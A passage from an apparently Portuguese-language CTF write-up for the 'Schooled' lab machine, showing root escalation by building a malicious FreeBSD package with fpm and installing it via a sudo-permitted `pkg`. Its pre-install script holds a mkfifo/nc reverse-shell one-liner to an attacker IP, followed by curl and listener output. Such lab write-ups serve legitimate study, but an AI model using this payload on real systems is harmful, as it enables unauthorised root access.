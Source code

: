 Verificando a página do binário `pkg` no [GTFOBins](https://gtfobins.github.io/gtfobins/pkg/) descobri que poderia utilizá-lo para instalar um pacote malicioso, de modo a conseguir um shell reverso nesta máquina. Os passos abaixo foram executados para obter um shell como `root`

* Instalei o pacote `fpm` na máquina atacante, também disponivel a partir deste [repositório no Github](https://github.com/jordansissel/fpm)

  ```bash
  sudo apt-get install ruby ruby-dev rubygems build-essential
  sudo gem install --no-document fpm
  ```

* Criei um pacote contendo o payload malicioso, no caso destinado a executar o comando para obtenção de um shell reverso

  ```bash
  TF=$(mktemp -d)
  echo 'export file="/tmp/zurc"' > $TF/x.sh
  echo 'rm $file;mkfifo $file;cat $file|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >$file' >> $TF/x.sh
  fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
  ```

* Transferi o pacote para a máquina alvo e executei o comando `sudo` permitido, obtendo assim um shell reverso a partir da conta do `jamie`, podendo assim ler a flag de root

  ```bash
  jamie@Schooled:/tmp $ /usr/local/bin/curl http://10.10.10.10/x-1.0.txz -o x-1.0.txz
  1.0.txz  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                   Dload  Upload   Total   Spent    Left  Speed
  100   572  100   572    0     0   4144      0 --:--:-- --:--:-- --:--:--  4144
  jamie@Schooled:/tmp $ sudo pkg install -y --no-repo-update ./x-1.0.txz
  pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
  pkg: Repository FreeBSD cannot be opened. 'pkg update' required
  Checking integrity... done (0 conflicting)
  The following 1 package(s) will be affected (of 0 checked):
  
  New packages to be INSTALLED:
          x: 1.0
  
  Number of packages to be installed: 1
  [1/1] Installing x-1.0...
  rm: /tmp/zurc: No such file or directory
  ```

  ```bash
  $ nc -lnvp 4443
  listening on [any] 4443 ...
  connect to [10.10.10.10] from (UNKNOWN) [10.10.10.234] 16349
  # cd /root
  # cat root.txt
  <redacted>
  ```

Espero que tenham gostado!

Vejo vocês no próximo post :smile:
